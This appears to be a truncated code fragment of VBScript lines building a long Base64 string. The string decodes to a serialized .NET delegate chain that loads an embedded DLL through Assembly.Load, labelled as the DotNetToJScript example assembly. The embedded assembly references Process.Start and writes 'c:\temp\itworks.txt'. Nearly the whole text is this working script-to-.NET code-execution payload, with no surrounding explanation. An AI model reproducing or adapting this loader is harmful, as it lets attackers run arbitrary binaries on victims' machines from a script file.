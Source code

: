 ```
s = s & "AwAAAAhEZWxlZ2F0ZQd0YXJnZXQwB21ldGhvZDADAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXph"
s = s & "dGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5IlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xk"
s = s & "ZXIvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIJAgAAAAkD"
s = s & "AAAACQQAAAAEAgAAADBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRl"
s = s & "RW50cnkHAAAABHR5cGUIYXNzZW1ibHkGdGFyZ2V0EnRhcmdldFR5cGVBc3NlbWJseQ50YXJnZXRU"
s = s & "eXBlTmFtZQptZXRob2ROYW1lDWRlbGVnYXRlRW50cnkBAQIBAQEDMFN5c3RlbS5EZWxlZ2F0ZVNl"
s = s & "cmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQYFAAAAL1N5c3RlbS5SdW50aW1lLlJlbW90"
s = s & "aW5nLk1lc3NhZ2luZy5IZWFkZXJIYW5kbGVyBgYAAABLbXNjb3JsaWIsIFZlcnNpb249Mi4wLjAu"
s = s & "MCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BgcAAAAH"
s = s & "dGFyZ2V0MAkGAAAABgkAAAAPU3lzdGVtLkRlbGVnYXRlBgoAAAANRHluYW1pY0ludm9rZQoEAwAA"
s = s & "ACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQd0YXJnZXQw"
s = s & "B21ldGhvZDADBwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVu"
s = s & "dHJ5Ai9TeXN0ZW0uUmVmbGVjdGlvbi5NZW1iZXJJbmZvU2VyaWFsaXphdGlvbkhvbGRlcgkLAAAA"
s = s & "CQwAAAAJDQAAAAQEAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9u"
s = s & "SG9sZGVyBgAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlCk1lbWJlclR5"
s = s & "cGUQR2VuZXJpY0FyZ3VtZW50cwEBAQEAAwgNU3lzdGVtLlR5cGVbXQkKAAAACQYAAAAJCQAAAAYR"
s = s & "AAAALFN5c3RlbS5PYmplY3QgRHluYW1pY0ludm9rZShTeXN0ZW0uT2JqZWN0W10pCAAAAAoBCwAA"
s = s & "AAIAAAAGEgAAACBTeXN0ZW0uWG1sLlNjaGVtYS5YbWxWYWx1ZUdldHRlcgYTAAAATVN5c3RlbS5Y"
s = s & "bWwsIFZlcnNpb249Mi4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdh"
s = s & "NWM1NjE5MzRlMDg5BhQAAAAHdGFyZ2V0MAkGAAAABhYAAAAaU3lzdGVtLlJlZmxlY3Rpb24uQXNz"
s = s & "ZW1ibHkGFwAAAARMb2FkCg8MAAAAABIAAAJNWpAAAwAAAAQAAAD//wAAuAAAAAAAAABAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAADh+6DgC0Cc0huAFMzSFUaGlzIHByb2dy"
s = s & "YW0gY2Fubm90IGJlIHJ1biBpbiBET1MgbW9kZS4NDQokAAAAAAAAAFBFAABMAQMAqSoQYAAAAAAA"
s = s & "AAAA4AAiIAsBMAAACAAAAAgAAAAAAADuJwAAACAAAABAAAAAAAAQACAAAAACAAAEAAAAAAAAAAQA"
s = s & "AAAAAAAAAIAAAAACAAAAAAAAAwBAhQAAEAAAEAAAAAAQAAAQAAAAAAAAEAAAAAAAAAAAAAAAnCcA"
s = s & "AE8AAAAAQAAADAQAAAAAAAAAAAAAAAAAAAAAAAAAYAAADAAAAGQmAAAcAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAIAAAAAAAAAAAAAAAIIAAASAAAAAAAAAAA"
s = s & "AAAALnRleHQAAAD0BwAAACAAAAAIAAAAAgAAAAAAAAAAAAAAAAAAIAAAYC5yc3JjAAAADAQAAABA"
s = s & "AAAABgAAAAoAAAAAAAAAAAAAAAAAAEAAAEAucmVsb2MAAAwAAAAAYAAAAAIAAAAQAAAAAAAAAAAA"
s = s & "AAAAAABAAABCAAAAAAAAAAAAAAAAAAAAANAnAAAAAAAASAAAAAIABQB0IAAA8AUAAAEAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAZgIoDgAACgAA"
s = s & "cgEAAHByKQAAcCgPAAAKAComAAMoEAAACiYqQlNKQgEAAQAAAAAADAAAAHYyLjAuNTA3MjcAAAAA"
s = s & "BQBsAAAA4AEAACN+AABMAgAASAIAACNTdHJpbmdzAAAAAJQEAABEAAAAI1VTANgEAAAQAAAAI0dV"
s = s & "SUQAAADoBAAACAEAACNCbG9iAAAAAAAAAAIAAAFHFQAACQAAAAD6ATMAFgAAAQAAABEAAAACAAAA"
s = s & "AgAAAAEAAAAQAAAADgAAAAEAAAACAAAAAABzAQEAAAAAAAYA4wDYAQYAUAHYAQYAMACmAQ8A+AEA"
s = s & "AAYAWACOAQYAxgCOAQYApwCOAQYANwGOAQYAAwGOAQYAHAGOAQYAbwCOAQYARAC5AQYAIgC5AQYA"
s = s & "igCOAQYAHAKHAQYAHQAKAAoAFAKmAQAAAAABAAAAAAABAAEAAQAQAAcCAAA9AAEAAQBQIAAAAACG"
s = s & "GKABBgABAGogAAAAAIYAEQIQAAEAAAABAG4BCQCgAQEAEQCgAQYAGQCgAQoAKQCgARAAMQCgARAA"
s = s & "OQCgARAAQQCgARAASQCgARAAUQCgARAAWQCgARAAYQCgARUAaQCgARAAcQCgARAAeQCgAQYAgQAp"
s = s & "AhoAiQAjAiAALgALAC8ALgATADgALgAbAFcALgAjAGAALgArAHUALgAzAJ8ALgA7AJ8ALgBDAGAA"
s = s & "LgBLAKUALgBTAJ8ALgBbAJ8ALgBjAMoALgBrAPQAQwBbAAEBBIAAAAEAAAAAAAAAAAAAAAAANgIA"
s = s & "AAIAAAAAAAAAAAAAACYAFAAAAAAAAgAAAAAAAAAAAAAAJgCHAQAAAAAAAAAAADxNb2R1bGU+AFN5"
s = s & "c3RlbS5JTwBtc2NvcmxpYgBGaWxlAEd1aWRBdHRyaWJ1dGUARGVidWdnYWJsZUF0dHJpYnV0ZQBD"
s = s & "b21WaXNpYmxlQXR0cmlidXRlAEFzc2VtYmx5VGl0bGVBdHRyaWJ1dGUAQXNzZW1ibHlUcmFkZW1h"
s = s & "cmtBdHRyaWJ1dGUAQXNzZW1ibHlGaWxlVmVyc2lvbkF0dHJpYnV0ZQBBc3NlbWJseUNvbmZpZ3Vy"
s = s & "YXRpb25BdHRyaWJ1dGUAQXNzZW1ibHlEZXNjcmlwdGlvbkF0dHJpYnV0ZQBDb21waWxhdGlvblJl"
s = s & "bGF4YXRpb25zQXR0cmlidXRlAEFzc2VtYmx5UHJvZHVjdEF0dHJpYnV0ZQBBc3NlbWJseUNvcHly"
s = s & "aWdodEF0dHJpYnV0ZQBBc3NlbWJseUNvbXBhbnlBdHRyaWJ1dGUAUnVudGltZUNvbXBhdGliaWxp"
s = s & "dHlBdHRyaWJ1dGUAcGF0aABFeGFtcGxlQXNzZW1ibHkuZGxsAFN5c3RlbQBTeXN0ZW0uUmVmbGVj"
s = s & "dGlvbgAuY3RvcgBTeXN0ZW0uRGlhZ25vc3RpY3MAU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZp"
s = s & "Y2VzAFN5c3RlbS5SdW50aW1lLkNvbXBpbGVyU2VydmljZXMARGVidWdnaW5nTW9kZXMAVGVzdENs"
s = s & "YXNzAFJ1blByb2Nlc3MAT2JqZWN0AFN0YXJ0AFdyaXRlQWxsVGV4dABFeGFtcGxlQXNzZW1ibHkA"
s = s & "AAAAJ2MAOgBcAHQAZQBtAHAAXABpAHQAdwBvAHIAawBzAC4AdAB4AHQAABlIAGUAbABsAG8AIABX"
s = s & "AG8AcgBsAGQAIQAAAIVUN9T4WmVMnBjh7sS7LhEABCABAQgDIAABBSABARERBCABAQ4EIAEBAgUA"
s = s & "AgEODgUAARJFDgi3elxWGTTgiQgBAAgAAAAAAB4BAAEAVAIWV3JhcE5vbkV4Y2VwdGlvblRocm93"
s = s & "cwEIAQAHAQAAAAAUAQAPRXhhbXBsZUFzc2VtYmx5AAApAQAkRXhhbXBsZSBBc3NlbWJseSBmb3Ig"
s = s & "RG90TmV0VG9KU2NyaXB0AAAFAQAAAAAkAQAfQ29weXJpZ2h0IMKpIEphbWVzIEZvcnNoYXcgMjAx"
s = s & "NwAAKQEAJDU2NTk4ZjFjLTZkODgtNDk5NC1hMzkyLWFmMzM3YWJlNTc3NwAADAEABzEuMC4wLjAA"
s = s & "AAUBAAEAAAAAAAAAqSoQYAAAAAACAAAAHAEAAIAmAACACAAAUlNEUyaBjRgFixJPmfMCVzSwEw4B"
s = s & "AAAARDpcU29mdHdhcmVzXERvdE5ldFRvSlNjcmlwdFxFeGFtcGxlQXNzZW1ibHlcb2JqXERlYnVn"
s = s & "XEV4YW1wbGVBc3NlbWJseS5wZGIAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
```